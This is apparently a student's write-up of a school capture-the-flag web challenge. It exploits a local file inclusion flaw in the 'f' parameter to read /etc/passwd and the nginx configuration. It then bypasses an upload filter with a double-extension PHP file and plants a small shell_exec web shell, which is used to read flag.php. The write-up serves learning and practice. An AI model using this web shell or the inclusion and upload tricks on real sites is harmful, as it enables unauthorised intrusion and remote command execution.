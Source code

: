 # PHP include Write Up

This is my school CTF challenge

## Web first look:

![image-20240905233221271](images/46.png)

Our task is clear, when we deal with a file upload, we should try to search directory for the file upload,

after running the

```bash
dirsearch -u http://10.214.160.13:10001
```

![image-20240905233221271](images/47.png)

I retrieved some directory from the website such as **file.php** and **flag.php** but currently two of them dont contain any use yet

Looking at the link format I suggest the website might be vulnurable to **Local File Inclusion**: 

```apl
http://10.214.160.13:10001/index.php?f=/etc/passwd
```

the output :

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false nginx:x:104:107:nginx user,,,:/nonexistent:/bin/false
```

Next I tried checking the nginx configuration:

```apl
http://10.214.160.13:10001/index.php?f=/etc/nginx/nginx.conf
```

I retrieved :

```
user nginx; worker_processes 1; error_log /var/log/nginx/error.log warn; pid /var/run/nginx.pid; events { worker_connections 1024; } http { include /etc/nginx/mime.types; default_type application/octet-stream; log_format main '$remote_addr - $remote_user [$time_local] "$request" ' '$status $body_bytes_sent "$http_referer" ' '"$http_user_agent" "$http_x_forwarded_for"'; access_log /var/log/nginx/access.log main; sendfile on; #tcp_nopush on; keepalive_timeout 65; #gzip on; include /etc/nginx/conf.d/*.conf; }
```



By checking the mime.type

```apl
http://10.214.160.13:10001/index.php?f=/etc/nginx/mime.types
```

retrieved :

```
types { text/html html htm shtml; text/css css; text/xml xml; image/gif gif; image/jpeg jpeg jpg; application/javascript js; application/atom+xml atom; application/rss+xml rss; text/mathml mml; text/plain txt; text/vnd.sun.j2me.app-descriptor jad; text/vnd.wap.wml wml; text/x-component htc; image/png png; image/tiff tif tiff; image/vnd.wap.wbmp wbmp; image/x-icon ico; image/x-jng jng; image/x-ms-bmp bmp; image/svg+xml svg svgz; image/webp webp; application/font-woff woff; application/java-archive jar war ear; application/json json; application/mac-binhex40 hqx; application/msword doc; application/pdf pdf; application/postscript ps eps ai; application/rtf rtf; application/vnd.apple.mpegurl m3u8; application/vnd.ms-excel xls; application/vnd.ms-fontobject eot; application/vnd.ms-powerpoint ppt; application/vnd.wap.wmlc wmlc; application/vnd.google-earth.kml+xml kml; application/vnd.google-earth.kmz kmz; application/x-7z-compressed 7z; application/x-cocoa cco; application/x-java-archive-diff jardiff; application/x-java-jnlp-file jnlp; application/x-makeself run; application/x-perl pl pm; application/x-pilot prc pdb; application/x-rar-compressed rar; application/x-redhat-package-manager rpm; application/x-sea sea; application/x-shockwave-flash swf; application/x-stuffit sit; application/x-tcl tcl tk; application/x-x509-ca-cert der pem crt; application/x-xpinstall xpi; application/xhtml+xml xhtml; application/xspf+xml xspf; application/zip zip; application/octet-stream bin exe dll; application/octet-stream deb; application/octet-stream dmg; application/octet-stream iso img; application/octet-stream msi msp msm; application/vnd.openxmlformats-officedocument.wordprocessingml.document docx; application/vnd.openxmlformats-officedocument.spreadsheetml.sheet xlsx; application/vnd.openxmlformats-officedocument.presentationml.presentation pptx; audio/midi mid midi kar; audio/mpeg mp3; audio/ogg ogg; audio/x-m4a m4a; audio/x-realaudio ra; video/3gpp 3gpp 3gp; video/mp2t ts; video/mp4 mp4; video/mpeg mpeg mpg; video/quicktime mov; video/webm webm; video/x-flv flv; video/x-m4v m4v; video/x-mng mng; video/x-ms-asf asx asf; video/x-ms-wmv wmv; video/x-msvideo avi; }
```

### From the mime.types the key points are :

Files are are served with specific MIME types based on their extensions

* `.php` files are typically served as `text/html` but are processed as PHP
* `.jpg`, `.jpeg`, `.png`, `.gif` are served as image types
* `.exe`, `.dll`, `.bin` are served as `application/octet-stream`, meaning they are treated as binary data

After seing the mime types I tried to upload an image file (.png)

and succesfully uploaded it: 
![image-20240905233221271](images/48.png)

![image-20240905233221271](images/49.png)

the image showed up after uploading

since the .php / .phtml / .html / .txt / etc don't work and only takes us to the file.php.

I figure it out to use double extention trojan so I tried injecting

```php
<?php echo "PHP execution confirmed!"; ?>
```

into a file named ***test.php.png***

and by seing the url format, I can conclude that the url has vulnurable parameter and that is the **f**

```
http://10.214.160.13:10001/index.php?f=upload.php
```

after acessing the malicious double extention trojan horse through the vulnurable parameter **f**

```
http://10.214.160.13:10001/index.php?f=upload/20240911920984.png
```

![image-20240905233221271](images/50.png)

after confirming the injected php, next we upload a cmd to operate remote code control **RCE**

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```

and give it also a double extention for example : final.php.png

and edit after uploading it try calling the cmd like this :

```
http://10.214.160.13:10001/index.php?f=upload/20240911418852.png&cmd=ls
```

![image-20240905233221271](images/51.png)

and it listed all the .php file in the directory, next we **cat** the flag.php file and inspect the element inside it

```
http://10.214.160.13:10001/index.php?f=upload/20240911418852.png&cmd=cat%20flag.php
```

![image-20240905233221271](images/52.png)

and we receive the flag contained inside it

Flag : **AAA{m310dy_1s_wAitinG_4_y0u_h3r3_qq_qun_~~~}** ~~ for privacy purpose
